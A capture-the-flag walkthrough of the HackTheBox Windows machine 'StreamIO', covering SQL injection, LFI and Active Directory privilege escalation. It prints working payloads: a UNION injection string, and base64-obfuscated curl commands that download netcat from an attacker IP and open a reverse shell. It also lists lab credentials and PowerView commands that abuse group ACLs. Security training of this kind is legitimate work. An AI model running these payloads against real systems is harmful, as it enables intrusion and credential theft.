

# StreamIO: HackTheBox WriteUP

# Box Info

|-------|---------|
| Name | StreamIO |
| OS | Windows 🪟 |
| Rating | Medium |

# Enumeration 

### Nmap Scan
 
```text
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-27 15:34:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-06-27T15:35:46+00:00; +7h00m11s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

- Microsoft IIS 
- Sub-Domain : `watch.streamio.htb`
- Domain : `streamio.htb`
- DC : `DC.streamio.htb`

### Web Enumration

On **Port 80** there was nothing, just IIS welcome screen, however on **Port 443 (https://streamio.htb/)** there is a login page as well as register page but can't login with new user we registerd.

Moving on to **https://watch.streamio.htb/** , here we have is a list of all movies. On doing `Dir Busting` got an interesting page:
- `search.php`

We can search movies here, so after trying manul union `SQLi` we can enumrate the database, since `sqlmap` was not working as page had some blacklist.


On after enumrating Database got some usernames and password hashes.

```text
'+UNION+SELECT+1,password,3,4,5,6+FROM+dbo.users+--+-
```

Some of the hashes were available on [CrackStation](https://crackstation.net/)

Now since correct Username and Password is not sure , did a `clusterbomb` attack on **Login Page** on `https://streamio.htb/`
and found a correct pair:

```text
yoshihide : 66boysandgirls..
```

---

# Foothold

Now since we can Login and there is nothing much at front, found `admin` page by doing `Dir busting`.

On admin page there are different features for user and each we are accessing each feature as some **GET** paramter, so on fuzzing it found `debug` paramter.

This paramter was vulnerable to `LFI`. Reading `Index.php` :

```text
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

We can inculde any file from the system with absolute path and found credentials for `db_admin` .

```text
db_admin : B1@hx31234567890
```

Therefore searching for some other files, found `mater.php` which have `eval()` function on `include` POST paramter.

So we can exploit it and get Reverse Shell by uploading it and executing it.

```shell-session
$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJjZXJ0dXRpbC5leGUgLXVybGNhY2hlIC1mIGh0dHA6Ly8xMC4xMC4xNC4yNy9uYy5leGUgbmMuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k

$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJuYy5leGUgMTAuMTAuMTQuMjcgOTAwMSAtZSBjbWQuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k
```

#### Enumrating Database

Since we got the Database Credentials and we can see it's runnning 

we can access it by tunneling our traffic, I used `chisel` : 

```text
.\chisel.exe client <Att._IP>:5555 R:4000:10.10.11.158:1433/tcp
```

After accessing the database using `impacket-mssqlclient`

```text
impacket-mssqlclient streamio.htb/db_admin@127.0.0.1 -port 4000
```

There was a `backup` Database which had some usernames and password hashes. One of them is user on system as well.

```text
nikk37 : get_dem_girls2@yahoo.com
```

# Privilage  Escalation
We can login as `nikk37` using `Evil-winRM`,
Running `winPEAS` and found an Intersting file


We can get some passwords from it.
Tool used : [FirePWD](https://github.com/lclevy/firepwd)

```text
admin JDg0dd1s@d0p3cr3@t0r
nikk37 n1kk1sd0p3t00
yoshihide paddpadd@12
JDgodd password@12
```

Password for `JDgodd` is `JDg0dd1s@d0p3cr3@t0r` it was just a guess `uwu` , after getting authencation failed in Last step.

### Using BloodHound
Using `bloodhound-python` to enumerate **AD** 

```shell
$ bloodhound-python -u nikk37 -p 'get_dem_girls2@yahoo.com' -ns 10.10.11.158 -d streamio.htb -c All
```

> I used `SharpHound` as well but it was not collecting any Information about user, Don't know why but somehow `bloodhound-python` was



`JDgodd` user have `write` permissions on `CORE STAFF` group

And again `CORE STAFF` group members have `ReadLAPSPassword` rights.


**Path to Follow : **

`JDgodd` have `write` rights on `CORE STAFF` we can add `JDgodd` itself into `CORE STAFF` group.
Since we cannot create any other user as any of our owned user is not a member of `Account Operator` group which is a special group in **AD** even though bloodhoud shows that `nikk37` is a member of this group but it is not.

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All 

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Credential $Cred

Get-DomainGroupMember -Identity 'CORE STAFF'
```

And now we can read `LAPS` Password : 


---

**Reference :** [TheHacker.Recipes ReadLAPSPassword](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword)


